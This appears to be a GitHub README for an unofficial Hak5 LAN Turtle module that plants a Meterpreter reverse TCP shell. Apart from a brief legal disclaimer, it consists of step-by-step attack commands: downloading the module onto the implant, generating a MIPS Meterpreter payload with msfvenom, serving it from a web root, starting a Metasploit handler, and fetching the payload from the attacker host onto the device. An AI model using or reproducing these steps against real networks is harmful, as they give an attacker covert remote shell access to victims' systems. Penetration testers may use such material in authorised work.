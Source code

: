 ## Unofficial custom Hak5 LAN Turtle Module - meterpreter-mipsbe-reverse-tcp

#### LEGAL DISCLAMER
    The author does not hold any responsibility for the use of this module. Remember that attacking
    targets without prior consent is illegal and punished by law. So use this module responsibly.

#### DOWNLOAD/INSTALL

**1 - On LAN Turtle: download module from github**<br />
<br />
`wget https://raw.githubusercontent.com/ATTACKnDEFEND/LanTurtle/main/meterpreter-mipsbe-reverse-tcp -O
/etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`<br />
<br />
`chmod 755 /etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`<br />

**2 - On Kali: generate Meterpreter payload with Msfvenom**<br />
<br />
`msfvenom -p linux/mipsbe/meterpreter_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f elf > meterpreter-mipsbe-reverse-tcp`<br />
<br />
`sudo cp meterpreter-mipsbe-reverse-tcp /var/www/html/meterpreter-mipsbe-reverse-tcp`<br />

**3 - On Kali: start Meterpreter listerner**<br />
<br />
`sudo msfconsole -q -x "use exploit/multi/handler;set payload linux/mipsbe/meterpreter_reverse_tcp;set lhost <LHOST>;set LPORT <LPORT>;exploit -j"`<br />

**4 - On LAN Turtle: transfer Meterpreter payload**<br />
<br />
`wget <KALI IP>/meterpreter-mipsbe-reverse-tcp -O /etc/turtle/meterpreter/meterpreter-mipsbe-reverse-tcp`<br />
<br />
`chmod 755 /etc/turtle/meterpreter/meterpreter-mipsbe-reverse-tcp`<br />









